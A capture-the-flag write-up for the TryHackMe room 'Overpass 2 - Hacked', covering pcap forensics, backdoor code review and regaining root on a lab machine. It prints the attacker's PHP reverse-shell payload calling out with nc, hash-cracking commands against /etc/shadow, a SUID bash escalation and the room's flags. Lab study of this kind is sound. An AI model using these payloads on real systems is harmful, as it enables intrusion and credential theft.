 ```yaml
---
title: Overpass 2 - Hacked
layout: post
author: Bit Criminals Team
date: 2021-06-28 21:55:00 +0530
type: Pentesting
difficulty: Easy
prompt: https://tryhackme.com/room/overpass2hacked
---
```


This room was not like the usual ones. We had to first analyze a .pcapng file. 

#Forensics - Analyse the PCAP

**What was the URL of the page they used to upload a reverse shell?**

![](/images/Mars/overpass1.png)

On close observation, you will find that the page is ```/development/```

**What payload did the attacker use to gain access?**

![](/images/Mars/overpass2.png)

When we followed the TCP stream of the packet with /development/uploads.php and found the above. Hence, the payload the attacker used was 
```<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>```

**What password did the attacker use to privesc?**

![](/images/Mars/overpass3.png)

On following the TCP streams available we found this goldmine of information. Clearly the password the attacker used was the password of James.
```whenevernoteartinstant```

**How did the attacker establish persistence?**

![](/images/Mars/overpass4.png)

On going further through the above TCP stream, we understood that the attacker planted an ssh backdoor to establish persistence. Clearly, he did so by cloning the following github repository.
```https://github.com/NinjaJc01/ssh-backdoor```

**Using the fasttrack wordlist, how many of the system passwords were crackable?**

Futher down in the same TCP stream, the attacker viewed the "/etc/shadow" file. Here we found the password hashes of five users. (Refer the image above)
We copied the password hashes into another file and used John the Ripper to crack the hashes. We used the fasttrack wordlist as per the requirment. The command used was
```john --wordlist=/usr/share/wordlists/fasttrack.txt hash1```

![](/images/Mars/overpass6.png)

Hence ```4``` hashes were cracked.

#Research - Analyse the code

The attacker created a backdoor using the code from ***https://github.com/NinjaJc01/ssh-backdoor***. So we cloned this repository to analyze the code.

**What's the default hash for the backdoor?**

In the main.go file, we found the default hash for the back door. Also note the port 2222 which the attacker used.

![](/images/Mars/overpass7.png)

```bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3```

**What's the hardcoded salt for the backdoor?**

Futher down in the same file we found the hardcoded salt for the backdoor.

![](/images/Mars/overpass8.png)

```1c362db832f3f864c8c2fe05f2002a05```

**What was the hash that the attacker used? - go back to the PCAP for this!**

![](/images/Mars/overpass5.png)

```6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed```

**Crack the hash using rockyou and a cracking tool of your choice. What's the password?**

We created a file with the above hash and the hardcoded salt for the backdoor in the format hash$salt ahd used John the Ripper.
```john -form=dynamic='sha512($p.$s)' --wordlist=/usr/share/wordlists/rockyou.txt hash2```
The password was ```november16```


#Attack - Get back in!

**The attacker defaced the website. What message did they leave as a heading?**

On opening the website "http://<box-ip>, we foind this.

![](/images/Mars/overpass10.png)

```H4ck3d by CooctusClan```

**What's the user flag?**

We had to begin with nmap scan, but this time it was unusually long. But we know that the attacker used port 2222. So we logged in at port 2222 uing ssh
```ssh -p 2222 james@<10.10.114.96>```

Finally result of the nmap scan came!
![](/images/Mars/overpass9.png)

We found the user falg in user.txt in the home directory of james.

![](/images/Mars/overpass11.png)

```thm{d119b4fa8c497ddb0525f7ad200e6567}```

**What's the root flag?**

Now comes the best part, privelage escelation.
We tried "sudo -l" as usual but this time the old password was incorrect. This meant the password was changed. The attacker is a smart guy!
Searching for a way to break in, we looked at all the files in the home directory. We found an unusual executable file owned by root.

![](/images/Mars/overpass12.png)

On execution using ```./.suid_bash``` it gave us a shell, but the user was still james. So this time we executed using ```./.suid_bash -p``` We became the root!!!

![](/images/Mars/overpass13.png)

```thm{d53b2684f169360bb9606c333873144d}```










